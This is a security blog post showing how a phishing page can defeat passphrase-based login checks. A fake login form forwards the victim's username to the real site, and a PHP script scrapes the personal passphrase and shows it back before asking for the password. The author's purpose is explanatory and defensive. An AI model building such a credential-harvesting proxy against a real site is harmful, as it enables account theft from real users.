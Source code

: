 ```yaml
---
layout: post
title: How custom passphrases/pictures still don't protect against phishing
tags:
- security
---
```

As you probably remember, I have lots of interest in phishing techniques (I talked about one [here](/blog/2007/07/11/the-anatomy-of-a-phishing-attack-advanced-technique/), and preventing them [here](/blog/2007/07/11/the-top-17-ways-to-help-eliminate-the-phishing-threat/)).  I've noticed a new trend: a dual stage login form with a custom picture or passphrase.  Users are to gain trust in the login page because their custom configured option is displayed.  The more I started thinking about this, however, I kept seeing an issue - this still can be easily phished!  I'm going to demonstrate a method of phishing the passphrase version.  I don't want to do a picture example because it a) takes more code and b) more people have moved to that thinking it is more secure.  Lets go:

First off, all phishing starts with getting the user to a login page not at the respected domain.  So, lets just skip that step, and examine our login page.  This will be a duplicate of our real site's login page - note the reminder that they will have to verify their passphrase.

**`login.php`** @ fakedomain.com
```html
<form action="login2.php" method="post">
    <label>Username: <input name="username"></input><br></br>
    <em>Remember, you will be asked to verify your passphrase on the next page.</em><br></br>
    <input type="submit" value="Login"></input>
</form>
```

Very simple login which sends it to another page - hopefully named the same as the real domain's login page.

Lets look at the page we'll be submitting to:

**`login2.php`** @ fakedomain.com
```php?start_inline=1    
/** cutting out a lot of code - make sure its not empty, etc **/
$args = array ('username'=>$_POST['username']);
$uri = 'http://realdomain.com/login.do.php';
 $opts = array('http'=>array('method'=>'POST', 'header'=>'Content-Type: application/x-www-form-urlencoded', 'content'=>http_build_query($args)));
 $context = stream_context_create($opts);
$page_with_phrase = file_get_contents($uri, false, $context);

$doc = new DomDocument();
$doc->loadHTML($page_with_phrase );

$passphrase = $doc->getElementById('passphrase_node')->nodeValue;

/** next login form page actually shows the $passphrase phrase and asks for password **/
include('next_login_form.php');
```

Ok, first off, you'll see we create a nice post with our stream context creation ([detailed here](/blog/2008/11/14/posting-requests-in-php-without-curl/)) - so we basically send the username to the real domain as they had logged in.  (Depending on the target site, you might also have to send referrers, cookies, etc - but we're making it a really simple example here.)

We retrieve the page after a successful post of the username.  This content should now contain the custom passphrase somewhere.  For our example, there is a nicely named div or span with an id of 'passphrase_node'.  Probably, in real life, you'd have to use a complex xpath to get the actual value.

From then on, we just include our 'second' login page which shows the passphrase, and then requests the password from the user.  From there, you can do whatever you want.

**Ok so...**
Its nice to see that people are trying to eliminate phishing - but there still is only one real solution IMHO - and that is to educate users on the address bar (or get them to install a plugin that validates the page they're on.).
